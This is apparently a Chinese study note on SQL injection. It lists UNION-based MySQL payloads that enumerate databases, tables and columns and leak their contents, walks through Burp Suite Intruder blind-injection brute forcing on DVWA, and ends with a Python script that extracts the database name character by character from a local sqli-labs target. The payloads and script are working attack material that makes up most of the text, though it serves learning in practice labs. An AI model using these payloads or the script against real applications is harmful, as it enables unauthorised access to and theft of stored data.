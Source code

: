 ### 											Summary SQLInjection Attack

SQL是一种弱类型的语言.1 与 ‘1’ 是可以匹配的.

‘ ’+0+‘ ’与字符‘0’或者字母开头的字符串匹配.

‘ ’+5+‘ ’与字符‘5’开头的相匹配.

SQL注入漏洞一般的格式为

```mysql
-1' payload-- ;
```

用于回显该查询语句的某些特定列的情况。

而

```mysql
-1';payload-- ;
```

用于能够回显所有查询结果的情况。

其中, -1’用于闭合第一句查询, 后边的payload执行你想要的查询语句。注释符负责绕过后边的条件检查。

现在给出一些常用的注入语句。

```mysql
#用于判断查询的列数
-1' ORDER BY n-- ;

#回显该表中所有待查询列的信息
-1' or 1=1-- ;

#用于查看哪些列会回显
-1' UNION SELECT 1,2,3-- ;

#泄露所有的数据库名信息
-1' UNION SELECT 1,2,group_concat(SCHEMA_NAME) FROM information_schema.SCHEMATA-- ;

#回显某数据库下的所有表名
-1' UNION SELECT 1,2,group_concat(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA='DATABASE_NAME'-- ;

#回显某表下的所有列名
-1' UNION SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_NAME='TABLE_NAME'-- ;

#回显表中某两列的信息
-1' UNION SELECT 1,COLUMN_NAME1, COLUMN_NAME2 FROM 'TABLE_NAME'-- ; 

```

### 利用盲注爆破

利用

```mysql
LEFT(str, len)
```

爆破某些特定的信息,如

```mysql
user();# 当前数据库用户
database(); #当前数据库名
version(); #当前使用的数据库版本
```

下面以DVWA的SQL注入为例谈谈如何使用burpsuite的Intruder模块逐字节爆破出特定的信息.

我们想要拿到当前数据库的名字，我们可以构造参数

#### GET

```http
id=1'+and+left(database(),1)='§a§'--+;
```

接着设置字符集与爆破长度:

![image-20240330224238605](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240330224238605.png)

查看攻击结果, 我们拿到了第一个字符s

![image-20240330224348504](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240330224348504.png)

爆破第二位时, 我们接着构造payload:

![image-20240330224624622](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240330224624622.png)

```http
id=1'+and+left(database(),2)='s§a§'--+;
```

接着爆破得到结论:
![image-20240330224703692](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240330224703692.png)

第二位字符是e, 以此类推.

可以利用python脚本完成盲注:

```python
import requests
from Crypto.Util import number
import time

URL = "http://localhost/sqli-labs/Less-5/?id="

sql_payload1 = "SELECT database()";

sql_payload2 = "SELECT group_concat(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA='security'"


def explode(sqlPayload, num, data):  # payload 第几位 已经爆破出来的字节
    payload = "1' and left(({sqlPayload}),{num}) = '{data}{char}'-- ;";
    for i in range(32, 127):
        payloadTmp = payload.format(sqlPayload=sqlPayload, num=num, data=data, char=chr(i));
        r = requests.get(URL + payloadTmp)
        if ("You are in" in r.text):  # 查到了东西
            return chr(i)


data = ''

payloadNow = "database()"

for i in range(1, 100):
    data += explode(payloadNow, i, data)
    print(data)

```

![image-20240330231556776](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240330231556776.png)

我们爆破出了完整的内容;

